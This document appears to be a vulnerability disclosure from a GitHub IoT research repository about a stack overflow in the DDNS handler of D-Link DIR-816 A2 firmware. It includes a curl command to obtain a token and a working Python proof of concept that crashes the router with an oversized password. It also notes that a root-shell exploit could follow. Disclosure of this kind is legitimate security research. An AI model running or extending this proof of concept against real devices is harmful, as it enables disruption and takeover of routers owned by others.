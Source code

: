 
# D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/DDNS/img/vuln1.png)

The vulnerability occurs in /goform/DDNS, We need to meet the conditions first

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/DDNS/img/vuln2.png)

The password is assigned to v7, and the v7 base64 will be stored in v11 after decryption, but the size of the password is not checked here, resulting in stack overflow

## Poc

First you need to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```python
import requests
import base64

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = '1804289383'

url = 'http://192.168.0.1/goform/DDNS'

payload = base64.b64encode(b'a' * 1000)

data = {
    'tokenid' : tokenid,
    'enable' : '1',
    'hostname' : 'DDNS',
    'username' : '123',
    'password' : payload
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

Then you can see the router crash, and finally you can write an exp to get a root shell

